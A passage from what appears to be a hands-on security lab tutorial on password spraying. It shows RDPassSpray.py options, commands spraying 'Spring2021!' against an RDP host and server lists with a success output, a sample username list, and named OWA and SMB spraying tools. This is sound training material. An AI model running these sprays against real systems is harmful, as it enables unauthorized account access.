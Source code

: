 ```shell-session
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts
```

Now, let's try using the (-u) option to specify theÂ victimÂ as a username and the (-p) option set theÂ Spring2021!. The (-t) option is to select a single host to attack.

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
```

The above output shows that we successfully found valid credentialsÂ victim:Spring2021!.Â Note that we can specify a domain name using theÂ -dÂ option if we are in an Active Directory environment.

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

There are various tools that perform a spraying password attack against different services, such as:

### Outlook web access (OWA) portal  

Tools:

- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)Â (atomizer.py)
- [MailSniper](https://github.com/dafthack/MailSniper)

### SMB

- Tool:Â MetasploitÂ (auxiliary/scanner/smb/smb_login)



Use the following username list:

```shell-session
user@THM:~# cat usernames-list.txt 
admin
phillips
burgess
pittman
guess
```


